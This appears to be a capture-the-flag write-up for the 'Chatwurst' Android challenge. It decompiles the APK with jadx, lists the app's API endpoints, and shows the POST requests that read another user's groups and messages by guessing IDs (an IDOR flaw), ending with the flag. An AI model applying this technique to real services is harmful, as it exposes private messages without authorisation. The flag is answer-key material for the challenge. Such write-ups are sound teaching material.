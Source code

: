 # Chatwurst

Start the challenge by opening up the chatwurst.apk in jadx:
`jadx-gui`

After navigating around the files, you'll see under Source code/com/sinclustoapps.chat there's a file:
`ChatwurstClient`

This file contains the POST requests that the application uses to make users, login, make groups and join groups

```java
public static void createUser(Context context, String str, String str2, Listener listener) {
        HashMap hashMap = new HashMap();
        hashMap.put("username", str);
        hashMap.put("password", str2);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_user", new JSONObject(hashMap), listener);
    }

    public static void loginUser(Context context, String str, String str2, Listener listener) {
        HashMap hashMap = new HashMap();
        hashMap.put("username", str);
        hashMap.put("password", str2);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/login", new JSONObject(hashMap), listener);
    }

    public static void createGroup(Context context, String str, String str2, ArrayList<String> arrayList, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        int i = 0;
        while (i < 10 && i < arrayList.size()) {
            hashMap.put("user_" + Integer.toString(i), arrayList.get(i));
            i++;
        }
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_group", new JSONObject(hashMap), listener);
    }

    public static void createMessage(Context context, String str, String str2, int i, String str3, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("group_id", Integer.valueOf(i));
        hashMap.put("content", str3);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_message", new JSONObject(hashMap), listener);
    }

    public static void getGroups(Context context, String str, String str2, int i, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("user_id", Integer.valueOf(i));
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/get_groups", new JSONObject(hashMap), listener);
    }

    public static void getMessages(Context context, String str, String str2, int i, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("group_id", Integer.valueOf(i));
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/get_messages", new JSONObject(hashMap), listener);  
}
```

The functions we are interested in with this app are the getMessages and getGroups functions since we want to be able to read the messages that are in a certain group.

First we must create a user so that we are able to submit requests with our credentials.
In the createUser function, it sends a POST request to: http://chatwurst.ctf-league.osusec.org/create_user
The content in the request consists of a username and password, so I created a POST request in https://reqbin.com 
```
URL: http://chatwurst.ctf-league.osusec.org/create_user
Content: {"username":"balll", "password":"test"}
```
Next we see that the getGroups function uses a username and password hashmap as a credential then a user_id to get the groups that the user is affiliated with. I assumed the user_id for the FizzbuzzMcFlurry account was a low number so I chose 1 as the user_id:
```
URL: http://chatwurst.ctf-league.osusec.org/get_groups
Content: {"credential":{"username":"balll","password":"test"}, "user_id": 1}
```

After recieving the group list of the user, I found there was a group with a bunch of users: Group 9
So the next step was to read the messages from the group. That's where the getMessages function comes along.
The getMessages function sends a POST request to http://chatwurst.ctf-league.osusec.org/get_messages with the credentials and a group id. So I created another POST request with this info.

```
URL: http://chatwurst.ctf-league.osusec.org/get_messages
Content: {"credential":{"username":"balll","password":"test"}, "group_id": 9}
```
This returned a list of all the messages in the group. Inside this message was the flag.

osu{cH4TWUrst_m0RE_L1KE_wUrSt_ch47}
